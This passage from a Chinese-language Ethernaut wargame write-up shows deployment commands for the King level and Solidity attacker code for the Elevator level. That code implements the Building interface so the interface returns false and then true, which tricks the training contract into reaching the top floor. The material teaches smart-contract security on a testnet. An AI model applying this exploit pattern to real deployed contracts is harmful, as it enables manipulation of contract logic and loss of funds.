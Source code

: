 调用脚本部署并发动攻击：
```
forge script script/level10.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

查询当前地址余额
```
cast balance <address> --rpc-url sepolia
```


链上记录：
- [level(`King`) 实例](https://sepolia.etherscan.io/address/0x5506958fC2AB6709357d9cB7F813cfb3a387b5B7)
- [Attacker](https://sepolia.etherscan.io/tx/0x34cA64426b2F010bae810b3dFCb41Dd989598957)
- [attack](https://sepolia.etherscan.io/tx/0xf7a7509d4579e909890cce22d131ae8e7f204f2e2fe8f89a4a3a39af092707a4)


## lelve 11

[The Ethernaut level 11](https://ethernaut.openzeppelin.com/level/11)

这一关的要求是让电梯合约达到顶楼。

仔细阅读这个合约，发现 Building 合约并没有任何实现细节。而且 Elevator 合约里实例化 Building 时使用了 msg.send 作为地址。

因此，我们可以编写一个实现了 Building 接口的合约实现关键的 `isLastFloor` 方法。再通过这个合约去调用 `Elevator` 合约的 `goTo` 方法。这样就可以通过控制 `Building` 合约的返回值，进而达到目的。

攻击合约步骤如下：
1. 编写一个实现了 Building 接口的合约
2. 实现 `isLastFloor` 方法，第一次调用时返回 `false，之后调用返回` `true`
3. 编写 `attack` 函数调用 Elevator 的 `goTo(floor)` 方法;
4. 调用 `attack` 函数发起攻击

示例代码如下：

```
contract Attacker is Building {
    Elevator elevator;
    bool hasCalled;

    constructor(address elevator_) {
        elevator = Elevator(elevator_);
    }

    function isLastFloor(uint256 _floor) public returns (bool) {
        if (hasCalled) return true;

        hasCalled = true;
        return false;
    }

    function attack(uint floor) public {
        elevator.goTo(floor);
    }
}
```
